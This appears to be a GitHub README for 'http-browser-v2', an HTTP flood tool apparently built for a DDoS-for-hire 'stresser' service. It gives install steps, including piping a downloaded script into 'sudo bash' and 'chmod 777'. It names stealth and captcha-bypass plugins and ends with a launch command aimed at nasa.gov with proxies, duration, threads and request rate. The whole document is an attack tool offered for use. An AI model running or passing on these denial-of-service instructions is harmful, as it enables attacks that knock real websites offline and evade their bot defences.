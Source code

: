 # http-browser-v2
New Version of HTTP Browser


curl -sL https://deb.nodesource.com/setup_16.x | sudo bash -

sudo apt -y install nodejs

npm install puppeteer-extra puppeteer-extra-plugin-recaptcha puppeteer-extra-plugin-stealth

apt install chromium-browser -y

chmod 777 optls

node golang_engine.js https://nasa.gov proxy.txt 1200 20 GET 64

Change the 2captcha key on golang_engine

Method coded by Ch2k1t3 friend for StresserUS, released because we got hacked

Dont bully the code, the method was under development
